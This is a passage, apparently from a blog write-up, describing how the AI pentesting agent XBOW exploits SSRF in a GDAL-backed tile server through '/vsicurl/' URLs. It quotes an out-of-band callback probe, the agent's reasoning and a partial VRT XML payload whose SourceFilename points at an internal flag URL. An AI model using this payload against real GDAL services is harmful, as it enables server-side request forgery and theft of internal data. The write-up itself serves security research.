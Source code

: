 ```
```

![](https://xbow.com/sparkle-white.webp)

However, the server responded with an error that revealed crucial information:

`{"detail":"'/vsicurl/http://d12gh236h0ste95n4j40tyeko35ipgg8z.xfil.xbow.ltd/test_ssrf' not recognized as a supported file format."}`

This error was incredibly valuable - it revealed that the application was using GDAL’s Virtual File System (VSI) with the cURL driver ( `/vsicurl/`) to access remote files, expecting them to be in geospatial formats like GeoTIFF.

When XBOW attempted to directly access the flag at `http://[REDACTED]/`, it encountered its first major hurdle:

`{"detail":"Failed to find <imageAttributes> in document."}`

This response indicated that while the HTTP request succeeded, the server expected XML data with specific `<imageAttributes>` tags. The flag content didn’t conform to the expected XML schema, so the server refused to process it further.

#### The Breakthrough: VRT Files to the Rescue

Faced with this formatting constraint, XBOW had a brilliant insight: if direct flag access wasn’t possible, perhaps it could use an indirect approach. Enter VRT (Virtual Raster Format) files - XML-based GDAL files that can define datasets by referencing other files, including remote ones.

XBOW crafted its first VRT file:

```
The current attempt with `/cog/point/0,0?url=http://[REDACTED]/` still results in the error `{"detail":"Failed to find <imageAttributes> in document."}`. This indicates that even the `/cog/point/` endpoint is trying to parse the response from the provided URL as an XML document and
expects an `<imageAttributes>` tag. This behavior seems consistent across the COG-related endpoints we've tried.

Since the application is using GDAL's `/vsicurl/` and expects a specific file format (likely a raster/geospatial format like GeoTIFF, but it's trying to parse XML first for metadata), we can try to leverage GDAL's VRT (Virtual Raster Format) files. VRT files are XML-based and can define
datasets by referencing other files, including remote ones. They are powerful and might allow us to:
1. Embed the content of the flag URL within the VRT file itself, possibly in a metadata field.
2. Or, if direct embedding doesn't work or is sanitized, use it to trigger an error message that might contain the flag content if the flag URL is used as a "source" and the parser tries to interpret it as a valid dataset.

The key is that VRT files *are* a supported format by GDAL.

Let's create a VRT file that attempts to include the flag content within a metadata tag or as a CData section. We'll use the HTTPS version of the flag URL within the VRT, hoping that GDAL's internal cURL might handle the SSL certificate issue more gracefully or differently, or that the VRT parser might not strictly enforce SSL if it's fetching a "sub-dataset". If not, we can try HTTP.

The VRT file will be very simple, just enough to be recognized as a VRT and to include our payload.

<VRTDataset rasterXSize="1" rasterYSize="1">
  <Metadata>
    <MDI key="FLAG_CONTENT">/vsicurl/https://[REDACTED]/</MDI>
  </Metadata>
  <VRTRasterBand dataType="Byte" band="1">
    <SimpleSource>
      <SourceFilename relativeToVRT="0">/vsicurl/https://[REDACTED]/</SourceFilename>
      <SourceBand>1</SourceBand>
      <SourceProperties RasterXSize="1" RasterYSize="1" DataType="Byte" BlockXSize="1" BlockYSize="1" />
      <SrcRect xOff="0" yOff="0" xSize="1" ySize="1" />
```
